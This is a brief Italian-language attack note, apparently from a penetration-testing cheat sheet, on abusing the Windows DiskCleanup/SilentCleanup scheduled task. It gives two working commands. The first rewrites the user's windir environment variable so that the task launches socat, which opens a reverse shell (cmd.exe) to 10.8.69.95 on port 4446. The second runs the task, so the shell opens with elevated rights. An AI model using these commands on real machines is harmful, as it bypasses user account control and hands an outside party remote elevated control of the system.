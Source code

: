 ### **TASK SCHEDULER : DISK CLEANUP**

Sostituisci la variabile, in questo caso %windir% con il cmd e invia il comando per una revshell
```powershell
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.8.69.95:4446 EXEC:cmd.exe,pipes &REM " /f
```
avvia il programa shedulato
```powershell
schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```